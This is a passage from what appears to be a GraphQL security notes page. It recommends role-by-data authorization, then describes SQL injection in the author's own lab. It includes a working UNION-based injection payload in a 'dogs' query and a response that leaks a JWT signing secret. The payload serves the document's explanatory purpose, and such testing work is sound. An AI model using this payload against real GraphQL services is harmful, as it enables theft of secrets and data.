 
#### Reco

With GraphQL we passed from a authorization matrix using `Role x Feature` to data level security using `Role x Data` because the also a single endpoints. User identity and roles must be passed to the top layer in charge grabbing the data (on act on) in order apply a verification using user identity prior to grab the data.

### Injection

[CWE-20](https://cwe.mitre.org/data/definitions/20.html) / [CWE-116](https://cwe.mitre.org/data/definitions/116.html)

#### Issue

According to how the information from the GraphQL request query/mutation/subscription are used by the GraphQL server to act on datastores there possibility for injection.

In my labs I have a vulnerability on this point about SQLi in query `dogs(namePrefix: String, limit: Int = 500): [Dog!]` because the parameter **namePrefix** is used in string concatenation to build a SQL query.

**Example:**

I send this GraphQL request in order to list the content of the `CONFIG` table

```javascript
query sqli {
  dogs(namePrefix: "ab%' UNION ALL SELECT 50 AS ID, C.CFGVALUE AS NAME, NULL AS VETERINARY_ID FROM CONFIG C LIMIT ? -- ", limit: 1000) {
    id
    name
  }
}
```

I receive in the GraphQL response the secret used to sign JWT token along the name of the dog for which the name start **ab**:

```javascript
{
  "data": {
    "dogs": [
      {
        "id": 1,
        "name": "Abi"
      },
      {
        "id": 2,
        "name": "Abime"
      },
      {
        "id": 50,
        "name": "$Nf!S?(.}DtV2~:Txw6:?;D!M+Z34^"
      }
    ]
  }
}
```
